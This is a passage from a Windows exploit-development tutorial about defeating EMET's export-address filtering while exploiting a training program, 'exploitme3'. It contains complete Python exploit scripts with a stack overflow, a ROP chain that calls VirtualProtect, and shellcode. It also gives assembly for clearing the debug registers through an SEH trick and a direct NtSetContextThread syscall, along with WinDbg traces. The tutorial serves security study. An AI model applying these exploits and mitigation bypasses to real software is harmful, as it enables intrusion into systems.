0 [ 0] address [size] of Delay Import Directory
0 [ 0] address [size] of COR20 Header Directory
0 [ 0] address [size] of Reserved Directory
SECTION HEADER #1
.text name
3F759 virtual size
1000 virtual address
3F800 size of raw data
400 file pointer to raw data
0 file pointer to relocation table
0 file pointer to line numbers
0 number of relocations
0 number of line numbers
60000020 flags
Code
(no align specified)
Execute Read
Debug Directories(1)
Type Size Address Pointer
cv 28 6a18 5e18 Format: RSDS, guid, 1, wkernelbase.pdb
SECTION HEADER #2
.data name
11E8 virtual size
41000 virtual address
400 size of raw data
3FC00 file pointer to raw data
0 file pointer to relocation table
0 file pointer to line numbers
0 number of relocations
0 number of line numbers
C0000040 flags
Initialized Data
(no align specified)
Read Write
SECTION HEADER #3
.rsrc name
530 virtual size
43000 virtual address
600 size of raw data
40000 file pointer to raw data
0 file pointer to relocation table
0 file pointer to line numbers
0 number of relocations
0 number of line numbers
40000040 flags
Initialized Data
(no align specified)
Read Only
SECTION HEADER #4
.reloc name
2A18 virtual size
44000 virtual address
2C00 size of raw data
40600 file pointer to raw data
0 file pointer to relocation table
0 file pointer to line numbers
0 number of relocations
0 number of line numbers
42000040 flags
Initialized Data
Discardable
(no align specified)
Read Only
0:000> ? kernelbase+3B840+1c
Evaluate expression: 1982380124 = 7628b85c <----------------------
0:000> ? @dr2
Evaluate expression: 1982380124 = 7628b85c <----------------------No, false alarm: dr2 points to the Export Directory of KERNELBASE!
Anyway, just for our curiosity, let’s have a look at the Intel Manuals (3B). Here’s the format of the debug registers:

It’s quite clear that registers DR0, DR1, DR2 and DR3 specify the addresses of the breakpoints. Register DR6 is a status register which reports information about the last debug exception, whereas DR7 contains the settings for the 4 breakpoints. If you are interested in the specifics, have a look at the manual yourself.
{kind=link}
All we need to know is that to disable the breakpoints we can just clear the debug registers. Indeed, if you load exploitme3.exe in WinDbg and look at the debug registers before EMET modify them, you’ll see the following:
0:000> rM 20 dr0=00000000 dr1=00000000 dr2=00000000 dr3=00000000 dr6=00000000 dr7=00000000 ntdll!LdrpDoDebuggerBreak+0x2c: 76f3103b cc int 3
Clearing the debug registers (1)
Clearing the debug registers should be easy enough, right? Let’s try it!
We can put the code to clear the debug registers right before our shellcode so that our shellcode can access the Export Directories with impunity.
To generate the machine code, we can write the asm code in Visual Studio, debug the program and Go to the Disassembly (right click on an assembly instruction). From there, we can copy and paste the code in PyCharm and edit the code a bit.
Here’s the result:
import struct
# The signature of VirtualProtect is the following:
# BOOL WINAPI VirtualProtect(
# _In_ LPVOID lpAddress,
# _In_ SIZE_T dwSize,
# _In_ DWORD flNewProtect,
# _Out_ PDWORD lpflOldProtect
# );
# After PUSHAD is executed, the stack looks like this:
# .
# .
# .
# EDI (ptr to ROP NOP (RETN))
# ESI (ptr to JMP [EAX] (EAX = address of ptr to VirtualProtect))
# EBP (ptr to POP (skips EAX on the stack))
# ESP (lpAddress (automatic))
# EBX (dwSize)
# EDX (NewProtect (0x40 = PAGE_EXECUTE_READWRITE))
# ECX (lpOldProtect (ptr to writeable address))
# EAX (address of ptr to VirtualProtect)
# lpAddress:
# ptr to "call esp"
# <shellcode>
msvcr120 = 0x73c60000
# Delta used to fix the addresses based on the new base address of msvcr120.dll.
md = msvcr120 - 0x70480000
def create_rop_chain(code_size):
rop_gadgets = [
md + 0x7053fc6f, # POP EBP # RETN [MSVCR120.dll]
md + 0x7053fc6f, # skip 4 bytes [MSVCR120.dll]
md + 0x704f00f6, # POP EBX # RETN [MSVCR120.dll]
code_size, # code_size -> ebx
md + 0x704b6580, # POP EDX # RETN [MSVCR120.dll]
0x00000040, # 0x00000040-> edx
md + 0x7049f8cb, # POP ECX # RETN [MSVCR120.dll]
md + 0x705658f2, # &Writable location [MSVCR120.dll]
md + 0x7048f95c, # POP EDI # RETN [MSVCR120.dll]
md + 0x7048f607, # RETN (ROP NOP) [MSVCR120.dll]
md + 0x704eb436, # POP ESI # RETN [MSVCR120.dll]
md + 0x70493a17, # JMP [EAX] [MSVCR120.dll]
md + 0x7053b8fb, # POP EAX # RETN [MSVCR120.dll]
md + 0x705651a4, # ptr to &VirtualProtect() [IAT MSVCR120.dll]
md + 0x7053b7f9, # PUSHAD # RETN [MSVCR120.dll]
md + 0x704b7e5d, # ptr to 'call esp' [MSVCR120.dll]
]
return ''.join(struct.pack('<I', _) for _ in rop_gadgets)
def write_file(file_path):
with open(file_path, 'wb') as f:
ret_eip = md + 0x7048f607 # RETN (ROP NOP) [MSVCR120.dll]
shellcode = (
"\xe8\xff\xff\xff\xff\xc0\x5f\xb9\x11\x03\x02\x02\x81\xf1\x02\x02" +
"\x02\x02\x83\xc7\x1d\x33\xf6\xfc\x8a\x07\x3c\x02\x0f\x44\xc6\xaa" +
"\xe2\xf6\x55\x8b\xec\x83\xec\x0c\x56\x57\xb9\x7f\xc0\xb4\x7b\xe8" +
"\x55\x02\x02\x02\xb9\xe0\x53\x31\x4b\x8b\xf8\xe8\x49\x02\x02\x02" +
"\x8b\xf0\xc7\x45\xf4\x63\x61\x6c\x63\x6a\x05\x8d\x45\xf4\xc7\x45" +
"\xf8\x2e\x65\x78\x65\x50\xc6\x45\xfc\x02\xff\xd7\x6a\x02\xff\xd6" +
"\x5f\x33\xc0\x5e\x8b\xe5\x5d\xc3\x33\xd2\xeb\x10\xc1\xca\x0d\x3c" +
"\x61\x0f\xbe\xc0\x7c\x03\x83\xe8\x20\x03\xd0\x41\x8a\x01\x84\xc0" +
"\x75\xea\x8b\xc2\xc3\x8d\x41\xf8\xc3\x55\x8b\xec\x83\xec\x14\x53" +
"\x56\x57\x89\x4d\xf4\x64\xa1\x30\x02\x02\x02\x89\x45\xfc\x8b\x45" +
"\xfc\x8b\x40\x0c\x8b\x40\x14\x8b\xf8\x89\x45\xec\x8b\xcf\xe8\xd2" +
"\xff\xff\xff\x8b\x3f\x8b\x70\x18\x85\xf6\x74\x4f\x8b\x46\x3c\x8b" +
"\x5c\x30\x78\x85\xdb\x74\x44\x8b\x4c\x33\x0c\x03\xce\xe8\x96\xff" +
"\xff\xff\x8b\x4c\x33\x20\x89\x45\xf8\x03\xce\x33\xc0\x89\x4d\xf0" +
"\x89\x45\xfc\x39\x44\x33\x18\x76\x22\x8b\x0c\x81\x03\xce\xe8\x75" +
"\xff\xff\xff\x03\x45\xf8\x39\x45\xf4\x74\x1e\x8b\x45\xfc\x8b\x4d" +
"\xf0\x40\x89\x45\xfc\x3b\x44\x33\x18\x72\xde\x3b\x7d\xec\x75\x9c" +
"\x33\xc0\x5f\x5e\x5b\x8b\xe5\x5d\xc3\x8b\x4d\xfc\x8b\x44\x33\x24" +
"\x8d\x04\x48\x0f\xb7\x0c\x30\x8b\x44\x33\x1c\x8d\x04\x88\x8b\x04" +
"\x30\x03\xc6\xeb\xdd")
disable_EAF = (
"\x33\xC0" + # xor eax,eax
"\x0F\x23\xC0" + # mov dr0,eax
"\x0F\x23\xC8" + # mov dr1,eax
"\x0F\x23\xD0" + # mov dr2,eax
"\x0F\x23\xD8" + # mov dr3,eax
"\x0F\x23\xF0" + # mov dr6,eax
"\x0F\x23\xF8" # mov dr7,eax
)
code = disable_EAF + shellcode
name = 'a'*36 + struct.pack('<I', ret_eip) + create_rop_chain(len(code)) + code
f.write(name)
write_file(r'c:\deleteme\name.dat')
If we execute exploitme3 we get a glorious crash!
Let’s open it in WinDbg and hit F5 (go). The execution should stop because of a single step exception. To ignore these annoying exceptions, we can tell WinDbg to ignore first-chance single step exceptions with the following command:
sxd sse
where sse stands for Single Step Exception.
Right after we hit F5 again, another exception is generated and we recognize our code:
0034d64a 0f23c0 mov dr0,eax <-------------- exception generated here 0034d64d 0f23c8 mov dr1,eax 0034d650 0f23d0 mov dr2,eax 0034d653 0f23d8 mov dr3,eax 0034d656 0f23f0 mov dr6,eax 0034d659 0f23f8 mov dr7,eax
The problem is that we can’t modify the debug registers in user mode (ring 3). The only way to do it is to delegate this task to the OS.
Clearing the debug registers (2)
I googled for “mov dr0 privileged instruction” and I found this page:
http://www.symantec.com/connect/articles/windows-anti-debug-reference
There, we can find a method to modify the debug registers. The method consists in defining an exception handler and generating an exception such as a division by zero. When the exception is generated, Windows will call the exception handler passing it a pointer to a CONTEXT data structure as first and only argument. The CONTEXT data structure contains the values of the registers when the exception was generated. The handler can modify the values in the CONTEXT data structure and, after the handler returns, Windows will propagate the changes to the real registers. This way, we can change the debug registers.
Here’s the code found on that page:
push offset handler
push dword ptr fs:[0]
mov fs:[0],esp
xor eax, eax
div eax ;generate exception
pop fs:[0]
add esp, 4
;continue execution
;...
handler:
mov ecx, [esp+0Ch] ;skip div
add dword ptr [ecx+0B8h], 2 ;skip div
mov dword ptr [ecx+04h], 0 ;clean dr0
mov dword ptr [ecx+08h], 0 ;clean dr1
mov dword ptr [ecx+0Ch], 0 ;clean dr2
mov dword ptr [ecx+10h], 0 ;clean dr3
mov dword ptr [ecx+14h], 0 ;clean dr6
mov dword ptr [ecx+18h], 0 ;clean dr7
xor eax, eax
ret
And here’s our C/C++ code:
#include <Windows.h>
#include <winnt.h>
#include <stdio.h>
int main() {
CONTEXT context;
printf("sizeof(context) = 0x%x\n", sizeof(context));
printf("contextFlags offset = 0x%x\n", (int)&context.ContextFlags - (int)&context);
printf("CONTEXT_DEBUG_REGISTERS = 0x%x\n", CONTEXT_DEBUG_REGISTERS);
printf("EIP offset = 0x%x\n", (int)&context.Eip - (int)&context);
printf("Dr0 offset = 0x%x\n", (int)&context.Dr0 - (int)&context);
printf("Dr1 offset = 0x%x\n", (int)&context.Dr1 - (int)&context);
printf("Dr2 offset = 0x%x\n", (int)&context.Dr2 - (int)&context);
printf("Dr3 offset = 0x%x\n", (int)&context.Dr3 - (int)&context);
printf("Dr6 offset = 0x%x\n", (int)&context.Dr6 - (int)&context);
printf("Dr7 offset = 0x%x\n", (int)&context.Dr7 - (int)&context);
_asm {
// Attach handler to the exception handler chain.
call here
here:
add dword ptr [esp], 0x22 // [esp] = handler
push dword ptr fs:[0]
mov fs:[0], esp
// Generate the exception.
xor eax, eax
div eax
// Restore the exception handler chain.
pop dword ptr fs:[0]
add esp, 4
jmp skip
handler:
mov ecx, [esp + 0Ch]; skip div
add dword ptr [ecx + 0B8h], 2 // skip the "div eax" instruction
xor eax, eax
mov dword ptr [ecx + 04h], eax // clean dr0
mov dword ptr [ecx + 08h], 0x11223344 // just for debugging!
mov dword ptr [ecx + 0Ch], eax // clean dr2
mov dword ptr [ecx + 10h], eax // clean dr3
mov dword ptr [ecx + 14h], eax // clean dr6
mov dword ptr [ecx + 18h], eax // clean dr7
ret
skip:
}
context.ContextFlags = CONTEXT_DEBUG_REGISTERS;
GetThreadContext(GetCurrentThread(), &context);
if (context.Dr1 == 0x11223344)
printf("Everything OK!\n");
else
printf("Something's wrong :(\n");
return 0;
}
The first part prints the offsets of EIP and the debug registers so that we can verify that the offsets in the asm code are correct. Then follows the actual code. Note that we assign 0x11223344 to dr1 just for debugging purposes. At the end, we use GetThreadContext to make sure that our method works.
This program won’t run correctly because of SAFESEH.
Indeed, Visual Studio gives us the following warning:
1>c:\users\kiuhnm\documents\visual studio 2013\projects\tmp\tmp\tmp1.cpp(24): warning C4733: Inline asm assigning to 'FS:0' : handler not registered as safe handler
Let’s disable SAFESEH by going to Project→properties and modifying the configuration for Release as follows:
- Configuration Properties
- Linker
- Advanced
- Image Has Safe Exception Handlers: No (/SAFESEH:NO)
- Advanced
- Linker
Now the program should work correctly.
We won’t have problems with SAFESEH when we put that code in our shellcode because our code will be on the stack and not inside the image of exploitme3.
Here’s the Python script to create name.dat:
import struct
# The signature of VirtualProtect is the following:
# BOOL WINAPI VirtualProtect(
# _In_ LPVOID lpAddress,
# _In_ SIZE_T dwSize,
# _In_ DWORD flNewProtect,
# _Out_ PDWORD lpflOldProtect
# );
# After PUSHAD is executed, the stack looks like this:
# .
# .
# .
# EDI (ptr to ROP NOP (RETN))
# ESI (ptr to JMP [EAX] (EAX = address of ptr to VirtualProtect))
# EBP (ptr to POP (skips EAX on the stack))
# ESP (lpAddress (automatic))
# EBX (dwSize)
# EDX (NewProtect (0x40 = PAGE_EXECUTE_READWRITE))
# ECX (lpOldProtect (ptr to writeable address))
# EAX (address of ptr to VirtualProtect)
# lpAddress:
# ptr to "call esp"
# <shellcode>
msvcr120 = 0x73c60000
# Delta used to fix the addresses based on the new base address of msvcr120.dll.
md = msvcr120 - 0x70480000
def create_rop_chain(code_size):
rop_gadgets = [
md + 0x7053fc6f, # POP EBP # RETN [MSVCR120.dll]
md + 0x7053fc6f, # skip 4 bytes [MSVCR120.dll]
md + 0x704f00f6, # POP EBX # RETN [MSVCR120.dll]
code_size, # code_size -> ebx
md + 0x704b6580, # POP EDX # RETN [MSVCR120.dll]
0x00000040, # 0x00000040-> edx
md + 0x7049f8cb, # POP ECX # RETN [MSVCR120.dll]
md + 0x705658f2, # &Writable location [MSVCR120.dll]
md + 0x7048f95c, # POP EDI # RETN [MSVCR120.dll]
md + 0x7048f607, # RETN (ROP NOP) [MSVCR120.dll]
md + 0x704eb436, # POP ESI # RETN [MSVCR120.dll]
md + 0x70493a17, # JMP [EAX] [MSVCR120.dll]
md + 0x7053b8fb, # POP EAX # RETN [MSVCR120.dll]
md + 0x705651a4, # ptr to &VirtualProtect() [IAT MSVCR120.dll]
md + 0x7053b7f9, # PUSHAD # RETN [MSVCR120.dll]
md + 0x704b7e5d, # ptr to 'call esp' [MSVCR120.dll]
]
return ''.join(struct.pack('<I', _) for _ in rop_gadgets)
def write_file(file_path):
with open(file_path, 'wb') as f:
ret_eip = md + 0x7048f607 # RETN (ROP NOP) [MSVCR120.dll]
shellcode = (
"\xe8\xff\xff\xff\xff\xc0\x5f\xb9\x11\x03\x02\x02\x81\xf1\x02\x02" +
"\x02\x02\x83\xc7\x1d\x33\xf6\xfc\x8a\x07\x3c\x02\x0f\x44\xc6\xaa" +
"\xe2\xf6\x55\x8b\xec\x83\xec\x0c\x56\x57\xb9\x7f\xc0\xb4\x7b\xe8" +
"\x55\x02\x02\x02\xb9\xe0\x53\x31\x4b\x8b\xf8\xe8\x49\x02\x02\x02" +
"\x8b\xf0\xc7\x45\xf4\x63\x61\x6c\x63\x6a\x05\x8d\x45\xf4\xc7\x45" +
"\xf8\x2e\x65\x78\x65\x50\xc6\x45\xfc\x02\xff\xd7\x6a\x02\xff\xd6" +
"\x5f\x33\xc0\x5e\x8b\xe5\x5d\xc3\x33\xd2\xeb\x10\xc1\xca\x0d\x3c" +
"\x61\x0f\xbe\xc0\x7c\x03\x83\xe8\x20\x03\xd0\x41\x8a\x01\x84\xc0" +
"\x75\xea\x8b\xc2\xc3\x8d\x41\xf8\xc3\x55\x8b\xec\x83\xec\x14\x53" +
"\x56\x57\x89\x4d\xf4\x64\xa1\x30\x02\x02\x02\x89\x45\xfc\x8b\x45" +
"\xfc\x8b\x40\x0c\x8b\x40\x14\x8b\xf8\x89\x45\xec\x8b\xcf\xe8\xd2" +
"\xff\xff\xff\x8b\x3f\x8b\x70\x18\x85\xf6\x74\x4f\x8b\x46\x3c\x8b" +
"\x5c\x30\x78\x85\xdb\x74\x44\x8b\x4c\x33\x0c\x03\xce\xe8\x96\xff" +
"\xff\xff\x8b\x4c\x33\x20\x89\x45\xf8\x03\xce\x33\xc0\x89\x4d\xf0" +
"\x89\x45\xfc\x39\x44\x33\x18\x76\x22\x8b\x0c\x81\x03\xce\xe8\x75" +
"\xff\xff\xff\x03\x45\xf8\x39\x45\xf4\x74\x1e\x8b\x45\xfc\x8b\x4d" +
"\xf0\x40\x89\x45\xfc\x3b\x44\x33\x18\x72\xde\x3b\x7d\xec\x75\x9c" +
"\x33\xc0\x5f\x5e\x5b\x8b\xe5\x5d\xc3\x8b\x4d\xfc\x8b\x44\x33\x24" +
"\x8d\x04\x48\x0f\xb7\x0c\x30\x8b\x44\x33\x1c\x8d\x04\x88\x8b\x04" +
"\x30\x03\xc6\xeb\xdd")
disable_EAF = (
"\xE8\x00\x00\x00\x00" + # call here (013E1008h)
#here:
"\x83\x04\x24\x22" + # add dword ptr [esp],22h ; [esp] = handler
"\x64\xFF\x35\x00\x00\x00\x00" + # push dword ptr fs:[0]
"\x64\x89\x25\x00\x00\x00\x00" + # mov dword ptr fs:[0],esp
"\x33\xC0" + # xor eax,eax
"\xF7\xF0" + # div eax,eax
"\x64\x8F\x05\x00\x00\x00\x00" + # pop dword ptr fs:[0]
"\x83\xC4\x04" + # add esp,4
"\xEB\x1A" + # jmp here+3Dh (013E1045h) ; jmp skip
#handler:
"\x8B\x4C\x24\x0C" + # mov ecx,dword ptr [esp+0Ch]
"\x83\x81\xB8\x00\x00\x00\x02" + # add dword ptr [ecx+0B8h],2
"\x33\xC0" + # xor eax,eax
"\x89\x41\x04" + # mov dword ptr [ecx+4],eax
"\x89\x41\x08" + # mov dword ptr [ecx+8],eax
"\x89\x41\x0C" + # mov dword ptr [ecx+0Ch],eax
"\x89\x41\x10" + # mov dword ptr [ecx+10h],eax
"\x89\x41\x14" + # mov dword ptr [ecx+14h],eax
"\x89\x41\x18" + # mov dword ptr [ecx+18h],eax
"\xC3" # ret
#skip:
)
code = disable_EAF + shellcode
name = 'a'*36 + struct.pack('<I', ret_eip) + create_rop_chain(len(code)) + code
f.write(name)
write_file(r'c:\deleteme\name.dat')
If we run exploitme3, we get a crash. Maybe we did something wrong?
Let’s debug the program in WinDbg. We open exploitme3.exe in WinDbg and then we press F5 (go). We get the familiar single step exception so we issue the command sxd sse and hit F5 again. As expected, we get an Integer divide-by-zero exception:
(610.a58): Integer divide-by-zero - code c0000094 (first chance) First chance exceptions are reported before any exception handling. This exception may be expected and handled. eax=00000000 ebx=0000017c ecx=89dd0000 edx=0021ddb8 esi=73c73a17 edi=73c6f607 eip=0015d869 esp=0015d844 ebp=73d451a4 iopl=0 nv up ei pl zr na pe nc cs=0023 ss=002b ds=002b es=002b fs=0053 gs=002b efl=00010246 0015d869 f7f0 div eax,eax
This is a first chance exception so if we press F5 (go) again, the exception will be passed to the program. Before proceeding, let’s examine the exception chain:
0:000> !exchain
0015d844: 0015d877
0015ff50: exploitme3!_except_handler4+0 (00381739)
CRT scope 0, filter: exploitme3!__tmainCRTStartup+115 (003812ca)
func: exploitme3!__tmainCRTStartup+129 (003812de)
0015ff9c: ntdll!_except_handler4+0 (76f071f5)
CRT scope 0, filter: ntdll!__RtlUserThreadStart+2e (76f074d0)
func: ntdll!__RtlUserThreadStart+63 (76f090eb)Everything seems correct!
When we hit F5 (go) we get this:
(610.a58): Integer divide-by-zero - code c0000094 (!!! second chance !!!) eax=00000000 ebx=0000017c ecx=89dd0000 edx=0021ddb8 esi=73c73a17 edi=73c6f607 eip=0015d869 esp=0015d844 ebp=73d451a4 iopl=0 nv up ei pl zr na pe nc cs=0023 ss=002b ds=002b es=002b fs=0053 gs=002b efl=00010246 0015d869 f7f0 div eax,eax
Why doesn’t the program handle the exception? The culprit is SafeSEH!
I forgot that it’s not enough for a handler not to be in a SafeSEH module: it mustn’t be on the stack either!
Clearing the debug registers (3)
SafeSEH may be bypassed but probably not without using some hardcoded addresses, which defeats the purpose.
I want to add that if we hadn’t reserved more space on the stack by allocating on the stack the array moreStack (see the initial C/C++ source code), our shellcode would’ve overwritten the exception chain and SEHOP would’ve stopped our exploit anyway. SEHOP checks that the exception chain ends with ntdll!_except_handler4. We can’t restore the exception chain if we don’t know the address of that handler. So, this path is not a viable one.
Another way to clear the debug registers is to use kernel32!SetThreadContext. While it’s true that we don’t have the address of such function, we shouldn’t give up just yet. We know that SetThreadContext can’t clear the debug registers in user mode so it must call some ring 0 service at some point.
Ring 0 services are usually called through interrupts or specific CPU instructions like SYSENTER (Intel) and SYSCALL (AMD). Luckily for us, these services are usually identified by small constants which are hardcoded in the OS and thus don’t change with reboots or even with updates and new service packs.
Let’s start by writing a little program in C/C++:
#include <Windows.h>
#include <stdio.h>
int main() {
CONTEXT context;
context.ContextFlags = CONTEXT_DEBUG_REGISTERS;
context.Dr0 = 0;
context.Dr1 = 0;
context.Dr2 = 0;
context.Dr3 = 0;
context.Dr6 = 0;
context.Dr7 = 0;
if (!SetThreadContext(GetCurrentThread(), &context))
printf("Error!\n");
else
printf("OK!\n");
return 0;
}
Now let’s debug it in WinDbg. Put a breakpoint on kernel32!SetThreadContext and hit F5 (go). SetThreadContext is very short:
kernel32!SetThreadContext: 764358d3 8bff mov edi,edi 764358d5 55 push ebp 764358d6 8bec mov ebp,esp 764358d8 ff750c push dword ptr [ebp+0Ch] <--------- 002df954 = &context 764358db ff7508 push dword ptr [ebp+8] <--------- 0xfffffffe = GetCurrentThread() 764358de ff15f8013b76 call dword ptr [kernel32!_imp__NtSetContextThread (763b01f8)] 764358e4 85c0 test eax,eax 764358e6 7d0a jge kernel32!SetThreadContext+0x1f (764358f2) 764358e8 50 push eax 764358e9 e846bdf7ff call kernel32!BaseSetLastNTError (763b1634) 764358ee 33c0 xor eax,eax 764358f0 eb03 jmp kernel32!SetThreadContext+0x22 (764358f5) 764358f2 33c0 xor eax,eax 764358f4 40 inc eax 764358f5 5d pop ebp 764358f6 c20800 ret 8
Note the two parameters passed to the first call. Clearly, we want to step inside that call:
ntdll!ZwSetBootOptions: 76eb1908 b84f010000 mov eax,14Fh 76eb190d 33c9 xor ecx,ecx 76eb190f 8d542404 lea edx,[esp+4] 76eb1913 64ff15c0000000 call dword ptr fs:[0C0h] 76eb191a 83c404 add esp,4 76eb191d c20800 ret 8 ntdll!ZwSetContextThread: <------------------------ we are here! 76eb1920 b850010000 mov eax,150h 76eb1925 33c9 xor ecx,ecx 76eb1927 8d542404 lea edx,[esp+4] 76eb192b 64ff15c0000000 call dword ptr fs:[0C0h] 76eb1932 83c404 add esp,4 76eb1935 c20800 ret 8 ntdll!NtSetDebugFilterState: 76eb1938 b851010000 mov eax,151h 76eb193d b90a000000 mov ecx,0Ah 76eb1942 8d542404 lea edx,[esp+4] 76eb1946 64ff15c0000000 call dword ptr fs:[0C0h] 76eb194d 83c404 add esp,4 76eb1950 c20c00 ret 0Ch 76eb1953 90 nop
This looks very interesting! What is this call? Above and below we can see other similar functions with different values for EAX. EAX might be the service number. The immediate value of the ret instruction depends on the number of arguments, of course.
Note that edx will point to the two arguments on the stack:
0:000> dd edx L2 002df93c fffffffe 002df954
Let’s step into the call:
747e2320 ea1e277e743300 jmp 0033:747E271E
A far jump: how interesting! When we step on it we find ourselves right after the call instruction:
ntdll!ZwQueryInformationProcess: 76eafad8 b816000000 mov eax,16h 76eafadd 33c9 xor ecx,ecx 76eafadf 8d542404 lea edx,[esp+4] 76eafae3 64ff15c0000000 call dword ptr fs:[0C0h] 76eafaea 83c404 add esp,4 <--------------------- we are here! 76eafaed c21400 ret 14h
Why does this happen and what’s the purpose of a far jump? Maybe it’s used for transitioning to 64-bit code? Repeat the whole process in the 64-bit version of WinDbg and the jump will lead you here:
wow64cpu!CpupReturnFromSimulatedCode: 00000000`747e271e 67448b0424 mov r8d,dword ptr [esp] ds:00000000`0037f994=76eb1932 00000000`747e2723 458985bc000000 mov dword ptr [r13+0BCh],r8d 00000000`747e272a 4189a5c8000000 mov dword ptr [r13+0C8h],esp 00000000`747e2731 498ba42480140000 mov rsp,qword ptr [r12+1480h] 00000000`747e2739 4983a4248014000000 and qword ptr [r12+1480h],0 00000000`747e2742 448bda mov r11d,edx
We were right! If we keep stepping we come across the following call:
00000000`747e276e 8bc8 mov ecx,eax 00000000`747e2770 ff150ae9ffff call qword ptr [wow64cpu!_imp_Wow64SystemServiceEx (00000000`747e1080)]
Note that ecx is 150, our service number. We don’t need to go so deep. Anyway, eventually we reach the following code:
ntdll!NtSetInformationThread: 00000000`76d01380 4c8bd1 mov r10,rcx 00000000`76d01383 b80a000000 mov eax,0Ah 00000000`76d01388 0f05 syscall 00000000`76d0138a c3 ret
So, to call a ring 0 service there are two transitions:
- from 32-bit ring 3 code to 64-bit ring 3 code
- from 64-bit ring 3 code to 64-bit ring 0 code
But we don’t need to deal with all this. All we need to do is:
- set EAX = 0x150
- clear ECX
- make EDX point to our arguments
- call the code pointed to by fs:[0xc0]
As we can see, this code is not susceptible to ASLR.
Now we can finally write the code to clear the debug registers:
mov eax, 150h
xor ecx, ecx
sub esp, 2cch ; makes space for CONTEXT
mov dword ptr [esp], 10010h ; CONTEXT_DEBUG_REGISTERS
mov dword ptr [esp + 4], ecx ; context.Dr0 = 0
mov dword ptr [esp + 8], ecx ; context.Dr1 = 0
mov dword ptr [esp + 0ch], ecx ; context.Dr2 = 0
mov dword ptr [esp + 10h], ecx ; context.Dr3 = 0
mov dword ptr [esp + 14h], ecx ; context.Dr6 = 0
mov dword ptr [esp + 18h], ecx ; context.Dr7 = 0
push esp
push 0fffffffeh ; current thread
mov edx, esp
call dword ptr fs : [0C0h] ; this also decrements ESP by 4
add esp, 4 + 2cch + 8
At the end of the code, we restore ESP but that’s not strictly necessary.
Here’s the complete Python script:
import struct
# The signature of VirtualProtect is the following:
# BOOL WINAPI VirtualProtect(
# _In_ LPVOID lpAddress,
# _In_ SIZE_T dwSize,
# _In_ DWORD flNewProtect,
# _Out_ PDWORD lpflOldProtect
# );
# After PUSHAD is executed, the stack looks like this:
# .
# .
# .
# EDI (ptr to ROP NOP (RETN))
# ESI (ptr to JMP [EAX] (EAX = address of ptr to VirtualProtect))
# EBP (ptr to POP (skips EAX on the stack))
# ESP (lpAddress (automatic))
# EBX (dwSize)
# EDX (NewProtect (0x40 = PAGE_EXECUTE_READWRITE))
# ECX (lpOldProtect (ptr to writeable address))
# EAX (address of ptr to VirtualProtect)
# lpAddress:
# ptr to "call esp"
# <shellcode>
msvcr120 = 0x73c60000
# Delta used to fix the addresses based on the new base address of msvcr120.dll.
md = msvcr120 - 0x70480000
def create_rop_chain(code_size):
rop_gadgets = [
md + 0x7053fc6f, # POP EBP # RETN [MSVCR120.dll]
md + 0x7053fc6f, # skip 4 bytes [MSVCR120.dll]
md + 0x704f00f6, # POP EBX # RETN [MSVCR120.dll]
code_size, # code_size -> ebx
md + 0x704b6580, # POP EDX # RETN [MSVCR120.dll]
0x00000040, # 0x00000040-> edx
md + 0x7049f8cb, # POP ECX # RETN [MSVCR120.dll]
md + 0x705658f2, # &Writable location [MSVCR120.dll]
md + 0x7048f95c, # POP EDI # RETN [MSVCR120.dll]
md + 0x7048f607, # RETN (ROP NOP) [MSVCR120.dll]
md + 0x704eb436, # POP ESI # RETN [MSVCR120.dll]
md + 0x70493a17, # JMP [EAX] [MSVCR120.dll]
md + 0x7053b8fb, # POP EAX # RETN [MSVCR120.dll]
md + 0x705651a4, # ptr to &VirtualProtect() [IAT MSVCR120.dll]
md + 0x7053b7f9, # PUSHAD # RETN [MSVCR120.dll]
md + 0x704b7e5d, # ptr to 'call esp' [MSVCR120.dll]
]
return ''.join(struct.pack('<I', _) for _ in rop_gadgets)
def write_file(file_path):
with open(file_path, 'wb') as f:
ret_eip = md + 0x7048f607 # RETN (ROP NOP) [MSVCR120.dll]
shellcode = (
"\xe8\xff\xff\xff\xff\xc0\x5f\xb9\x11\x03\x02\x02\x81\xf1\x02\x02" +
"\x02\x02\x83\xc7\x1d\x33\xf6\xfc\x8a\x07\x3c\x02\x0f\x44\xc6\xaa" +
"\xe2\xf6\x55\x8b\xec\x83\xec\x0c\x56\x57\xb9\x7f\xc0\xb4\x7b\xe8" +
"\x55\x02\x02\x02\xb9\xe0\x53\x31\x4b\x8b\xf8\xe8\x49\x02\x02\x02" +
"\x8b\xf0\xc7\x45\xf4\x63\x61\x6c\x63\x6a\x05\x8d\x45\xf4\xc7\x45" +
"\xf8\x2e\x65\x78\x65\x50\xc6\x45\xfc\x02\xff\xd7\x6a\x02\xff\xd6" +
"\x5f\x33\xc0\x5e\x8b\xe5\x5d\xc3\x33\xd2\xeb\x10\xc1\xca\x0d\x3c" +
"\x61\x0f\xbe\xc0\x7c\x03\x83\xe8\x20\x03\xd0\x41\x8a\x01\x84\xc0" +
"\x75\xea\x8b\xc2\xc3\x8d\x41\xf8\xc3\x55\x8b\xec\x83\xec\x14\x53" +
"\x56\x57\x89\x4d\xf4\x64\xa1\x30\x02\x02\x02\x89\x45\xfc\x8b\x45" +
"\xfc\x8b\x40\x0c\x8b\x40\x14\x8b\xf8\x89\x45\xec\x8b\xcf\xe8\xd2" +
"\xff\xff\xff\x8b\x3f\x8b\x70\x18\x85\xf6\x74\x4f\x8b\x46\x3c\x8b" +
"\x5c\x30\x78\x85\xdb\x74\x44\x8b\x4c\x33\x0c\x03\xce\xe8\x96\xff" +
"\xff\xff\x8b\x4c\x33\x20\x89\x45\xf8\x03\xce\x33\xc0\x89\x4d\xf0" +
"\x89\x45\xfc\x39\x44\x33\x18\x76\x22\x8b\x0c\x81\x03\xce\xe8\x75" +
"\xff\xff\xff\x03\x45\xf8\x39\x45\xf4\x74\x1e\x8b\x45\xfc\x8b\x4d" +
"\xf0\x40\x89\x45\xfc\x3b\x44\x33\x18\x72\xde\x3b\x7d\xec\x75\x9c" +
"\x33\xc0\x5f\x5e\x5b\x8b\xe5\x5d\xc3\x8b\x4d\xfc\x8b\x44\x33\x24" +
"\x8d\x04\x48\x0f\xb7\x0c\x30\x8b\x44\x33\x1c\x8d\x04\x88\x8b\x04" +
"\x30\x03\xc6\xeb\xdd")
disable_EAF = (
"\xB8\x50\x01\x00\x00" + # mov eax,150h
"\x33\xC9" + # xor ecx,ecx
"\x81\xEC\xCC\x02\x00\x00" + # sub esp,2CCh
"\xC7\x04\x24\x10\x00\x01\x00" + # mov dword ptr [esp],10010h
"\x89\x4C\x24\x04" + # mov dword ptr [esp+4],ecx
"\x89\x4C\x24\x08" + # mov dword ptr [esp+8],ecx
